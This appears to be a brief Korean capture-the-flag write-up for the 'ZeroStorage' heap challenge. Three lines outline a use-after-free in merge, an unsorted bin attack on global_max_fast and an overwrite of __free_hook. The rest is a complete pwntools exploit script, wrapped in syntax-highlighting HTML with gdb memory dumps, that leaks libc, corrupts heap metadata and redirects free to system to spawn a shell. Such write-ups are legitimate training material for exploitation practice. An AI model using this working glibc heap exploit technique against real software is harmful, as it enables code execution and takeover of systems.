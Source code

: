 # ZeroStorage



merge에서 취약점 발생 같은것을 합칠수 있음(uaf)



unsorted bin attack으로 global_max_fast를 덮는다(global_max_fast의 값보다 작은 힙들은 모두 fast bin 처럼 사용 가능)



free_hook을 덮고 exploit



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div><div style="line-height:130%">64</div><div style="line-height:130%">65</div><div style="line-height:130%">66</div><div style="line-height:130%">67</div><div style="line-height:130%">68</div><div style="line-height:130%">69</div><div style="line-height:130%">70</div><div style="line-height:130%">71</div><div style="line-height:130%">72</div><div style="line-height:130%">73</div><div style="line-height:130%">74</div><div style="line-height:130%">75</div><div style="line-height:130%">76</div><div style="line-height:130%">77</div><div style="line-height:130%">78</div><div style="line-height:130%">79</div><div style="line-height:130%">80</div><div style="line-height:130%">81</div><div style="line-height:130%">82</div><div style="line-height:130%">83</div><div style="line-height:130%">84</div><div style="line-height:130%">85</div><div style="line-height:130%">86</div><div style="line-height:130%">87</div><div style="line-height:130%">88</div><div style="line-height:130%">89</div><div style="line-height:130%">90</div><div style="line-height:130%">91</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;insert(length,data):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(length))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sa(<span style="color:#63a35c">':'</span>,data)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;update(idx,length,data):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sa(<span style="color:#63a35c">':'</span>,data)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;merge(idx1,idx2):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'3'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(idx1))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(idx2))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;delete(idx):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'4'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;view(idx):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'5'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;list():</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'6'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./zerostorage'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./zerostorage'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x,y&nbsp;:&nbsp;r.sendlineafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x,y&nbsp;:&nbsp;r.sendafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x&nbsp;:&nbsp;r.recvuntil(x)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">insert(<span style="color:#0099cc">0x40</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x40</span>)<span style="color:#999999">#0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">insert(<span style="color:#0099cc">0xf8</span>,<span style="color:#63a35c">'B'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0xf8</span>)<span style="color:#999999">#1</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">merge(<span style="color:#0099cc">0</span>,<span style="color:#0099cc">0</span>)<span style="color:#999999">#2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">view(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'Entry&nbsp;No.2:\n'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_leak&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;u64(ru(<span style="color:#63a35c">'\x7f'</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\x00\x00'</span>)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>&nbsp;<span style="color:#0099cc">0x3c4b78</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(libc_leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#global_max_fast&nbsp;edit</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">global_max_fast&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;libc_leak&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;<span style="color:#0099cc">0x3c67f8</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(<span style="color:#63a35c">'Global_max_fast&nbsp;:&nbsp;'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>hex(global_max_fast))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">update(<span style="color:#0099cc">2</span>,<span style="color:#0099cc">0x20</span>,p64(<span style="color:#0099cc">0xdeadbeef</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(global_max_fast<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x10</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x10</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">insert(<span style="color:#0099cc">0x10</span>,<span style="color:#63a35c">'/bin/sh\x00'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\x00'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x8</span>)<span style="color:#999999">#0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">0x7faab01147e8&nbsp;&lt;free_list&gt;:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">insert(0x10,'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">/</span>bin<span style="color:#0086b3"></span><span style="color:#a71d5d">/</span>sh\x00<span style="color:#63a35c">'+'</span>\x00<span style="color:#63a35c">'*0x8)#0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7faab01147e8</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>free_list<span style="color:#0086b3"></span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7faab01147f8</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>global_max_fast<span style="color:#0086b3"></span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0xb0112b78</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00007faa</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7faab0114808</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>root<span style="color:#0086b3"></span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7faab0114818</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>old_realloc_hook<span style="color:#0086b3"></span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7faab0114828</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>old_malloc_hook<span style="color:#0086b3"></span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7faab0114838</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>added_atexit_handler.<span style="color:#0099cc">9387</span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">#update(2,0x20,p64(libc_leak+0x3c4b78)*2+'</span>A<span style="color:#63a35c">'*0x10)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">merge(1,1)#3</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">free_hook&nbsp;=&nbsp;libc_leak&nbsp;+&nbsp;libc.symbols['</span>__free_hook<span style="color:#63a35c">']</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">oneshot&nbsp;=&nbsp;libc_leak&nbsp;+&nbsp;libc.symbols['</span>system<span style="color:#63a35c">']</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">log.info(hex(free_hook))</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">log.info(hex(oneshot))</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf3574f</span>:&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000200</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf3575f</span>:&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf3576f</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>list_all_lock<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">15</span><span style="color:#a71d5d">&gt;</span>:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf3577f</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>_IO_stdfile_2_lock<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">15</span><span style="color:#a71d5d">&gt;</span>:&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf3578f</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>_IO_stdfile_1_lock<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">15</span><span style="color:#a71d5d">&gt;</span>:&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf3579f</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>_IO_stdfile_0_lock<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">15</span><span style="color:#a71d5d">&gt;</span>:&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">0x7fb2faf357af</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">&lt;</span>__free_hook<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">7</span><span style="color:#a71d5d">&gt;</span>:&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#0099cc">0x00000000</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">update(3,0x1f8,p64(free_hook-0x59)+p64(0xdeadbeef)+'</span>A<span style="color:#63a35c">'*(0x1f8-0x10))</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">insert(0x1f8,p64(free_hook-0x59)+'</span>\x00<span style="color:#63a35c">'*(0x1f8-0x8))</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">insert(0x1f8,'</span>\x00<span style="color:#63a35c">'*0x49+p64(oneshot)+'</span>\x00<span style="color:#63a35c">'*(0x1f8-(0x49+8)))</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">delete(0)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">r.interactive()</span></div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



